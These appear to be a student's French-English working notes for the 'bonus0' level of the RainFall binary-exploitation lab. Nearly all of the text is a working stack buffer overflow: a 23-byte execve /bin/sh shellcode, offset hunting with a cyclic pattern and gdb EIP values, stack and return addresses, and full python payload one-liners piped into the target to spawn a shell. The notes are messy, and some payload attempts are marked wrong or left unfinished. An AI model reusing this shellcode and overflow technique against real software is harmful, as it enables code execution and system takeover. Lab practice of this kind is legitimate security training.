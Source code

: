Here is our shellcode (size 24)

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

### Payload

0xbffff71c --> address of v3 --> \x1c\xf7\xff\xbf
0xbffff70e --> address of buffer -> \x0e\xf7\xff\xbf
0xbffff74e --> address of buffer maybe wtf lol mdr --> \x4e\xf7\xff\xbf

```bash
(python -c 'print ("A" * 20)'; cat) | ./bonus0
```

````bash
(python -c 'print "A" * 20'; python -c 'print "B" * 19')  | ./bonus0```

```bash
(python -c 'print "A" * 20'; python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x1c\xf7\xff\xbf"')  | ./bonus0
````

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0 --> 1ere partie shellcode
\x0b\xcd\x80 --> 2eme partie shellcode
'A' \* 13
\x0e\xf7\xff\xbf

```bash
(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"'; python -c 'print "\x0b\xcd\x80" + "A" * 11 + "\x4e\xf7\xff\xbf" + "A"'; cat)  | ./bonus0
```

run < <(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"'; python -c 'print "\x0b\xcd\x80" + "A" * 12 + "\x4e\xf7\xff\xbf" + "A"';)

LOG pour find segfault

```bash
bonus0@RainFall:~$ (python -c 'print "A" * 20'; python -c 'print "B" * 17')  | ./bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBB
Segmentation fault (core dumped)
bonus0@RainFall:~$ (python -c 'print "A" * 20'; python -c 'print "B" * 16')  | ./bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBB
```

```
Wrong Payload
20 chars de payload

- 16 chars de payload
- overwrite return addresse --> jump vers debut de buffer (start of payload)
+ 16 chars de payload
+ overwrite return addresse --> jump vers debut de buffer (start of payload)
```

input1: 19 A || input2: 1B
--> AAAAAAAAAAAAAAAAAAA B
19 A | 1B

intput1 : 20 A || input2: 1 B
--> AAAAAAAAAAAAAAAAAAAAB B
20 A + 1B | 1B

input1: 20A || input2 : 5 B
--> AAAAAAAAAAAAAAAAAAAABBBBB BBBBB
20 A + 5B | 5B

```
input 1 = AAAAAAAAAAAAAAAAAAAA (20 CHARS)
input 2 = BBBBBBBBBBBBBBBB	(16 CHARS)		OK
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBB	(55 chars total)

input 2 = BBBBBBBBBBBBBBBBB	(17 CHARS)		SEGFAULT
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBB	(55 chars total)
```

```bash
(python -c 'print "A" * 20'; python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"')  | ./bonus0
```

```
segfault
0x	41	33	61	41
	A	3	a	A
```

`offset to segfault at 20 CHARS dans input1 et 9 CHARS in input 2`

```bash
Payload
20 chars de payload (-> input 1)
+ 9 chars de payload (-> input 2)
+ adress to start of payload (address of buffer in main)
+ ballec du reste?
```

```bash
SHELLCODE
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

```buffer
20 chars de
AAAAAAAAAAAAAAAAAAAABBBBBBBBBB BBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBB BBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBB BBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBB BBBBBBBBBBBBBBB
```

---

## NEW PAYLAOD

```bash
input 1 = AAAAAAAAAAAAAAAAAAAA	(20 CHARS)

input 2 = BBBBBBBBBBBBBBBB		(16 CHARS)		OK
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBB		(55 chars total)

input 2 = BBBBBBBBBBBBBBBBB		(17 CHARS)		SEGFAULT
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBB		(55 chars total)
eip            0xb7e40042	0xb7e40042

input 2 = BBBBBBBBBBBBBBBBBB	(18 CHARS)		SEGFAULT
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBBB	(57 chars total)
eip            0x00424242	0x00424242

input 2 = BBBBBBBBBBBBBBBBBBB	(19 CHARS)		SEGFAULT
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBBBB	(59 chars total)
eip            0x42424242	0x42424242

input 2 = BBBBBBBBBBCDEFGHIJK	(19 CHARS)		SEGFAULT
--> AAAAAAAAAAAAAAAAAAAABBBBBBBBBBCDEFGHIJK BBBBBBBBBBCDEFGHIJK	(59 chars total)
eip            0x4a494847	0x4a494847
4a	49	48	47
J	I	H	G

input 2 = 14 CHARS + EIP (4 chars) + 1 CHAR trash
input 1 = 20 CHARS

BUFFER = 
input 1 (20 chars)
+ input 2 ( 19 )
+ espace
+ input 2 (19)

BUFFER =

20 chars unique
+ 14 chars
+ EIP (4 chars)
+ 1 char trash
+ espace
+ 14 chars
+ EIP (4 chars) //celui la overflow
+ 1 char trash

PAYLOAD = 
input 1 = 20er char du shellcode
input 2 = 3 characters du shellcode + 11 trash + EIP (jump == 4 chars) + 1 trash

SHELLCODE


PAYLOAD
input 1 = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
input 2 = "\x0b\xcd\x80" + 11 * "A" + "\x06\xf7\xff\xbf" + "A"
input 2 = 
```

address of start of buffer: `0xbffff706` = `\x06\xf7\xff\xbf`

```bash
(python -c 'print ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0")'; python -c 'print ("\x0b\xcd\x80" + 11 * "A" + "\x06\xf7\xff\xbf" + "A")'; cat)  | ./bonus0
```
-----

```bash
(python -c 'print ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0")'; python -c 'print ("\x0b\xcd\x80" + 11 * "A" + "\xa0\x85\x04\x08" + "A")'; cat)  | ./bonus0
```

main - 4 = 080485a4 - 4 = 080485a0 = \xa0\x85\x04\x08